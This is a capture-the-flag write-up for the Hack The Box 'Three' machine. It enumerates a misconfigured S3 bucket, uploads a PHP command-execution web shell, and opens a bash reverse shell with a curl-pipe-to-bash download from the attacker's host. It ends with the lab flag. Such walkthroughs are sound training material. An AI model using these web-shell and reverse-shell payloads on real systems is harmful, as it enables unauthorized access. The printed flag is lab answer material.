

# HTB - Three Writeup

Machine Name: Three

IP : 10.129.227.248

Hardness : Easy

## Nmap Scan

$ `sudo nmap -sV 10.129.227.248`



Good we have two ports open,

`Port 22 - SSH`

`Port 80 - Webserver`

Add the domain name mapping to /etc/hosts file:

`echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts` 

Checking the website I couldn’t find anything much except for a .php endpoint that didn’t work, but that did give us an idea that the website is built upon PHP.

Now the next thing we can try is to find subdomains. Lets use Gobuster to enumerate subdomains.

```jsx
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```


This reveals one subdomain: s3.thetoppers.htb. And going to that website gives us a single JSON data


s3 is for the Amazon cloud service for storing data, this is a container amazon calls buckets. They have various benefits like backups, media storage, files etc. So now we know the subdomain `s3.thetoppers.htb` is a aws s3 service.

in order to interact with an S3 bucket we need an application called `awscli` .

install it using this command:

```bash
sudo apt install awscli
```

to see all the buckets hosted by the service we can use the command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

Now that will give us the aws configure error telling us we should do the configuration first.

```bash
aws configure
```

After a small research I found that there was no need for the credentials, there should just be something to fill the variables.


Now running the first command again:


This list all the buckets, and now we can use the same commands to list the contents of that specific bucket:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```


Now we have something interesting here, This looks like the root directory of the webserver. a .htaccess, index.php, and a images/ folder. We can confirm that this is the websites root directory and the webserver is ran using PHP.

Now we can try the copy feature of the awscli to copy a reverse shell to this directory and access it using the website which turns it executable and gives us a shell.

### Reverse shell

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Now lets try copying it to the bucket

```php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Now go to the browser and type in [`http://thetoppers.htb/reverse.php`](http://thetoppers.htb/reverse.php) .

Now you will have the prompt for a shell.


So now we need a proper reverse shell the most simple thing we can do right now is to download a reverse shell into the server and execute it there.

reverse shell:

```php
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.100/1234 0>&1
```

Now save this as shell.sh

Open another terminal and start a netcat listener:

```php
nc -lnvp 1234
```

Then start a python webserver on the same directory using this command:

```php
python3 -m http.server 8000
```

Then go back to the webpage where you can type in commands and then type this in:

```php
curl http://10.10.14.100:8000/shell.sh|bash
```

Now click Execute. 

Now if you look at the netcat listener:


There you have the reverse shell.

Now the flag can be found at /var/www/flag.txt

FLAG : `a980d99281a28d638ac68b9bf9453c2b`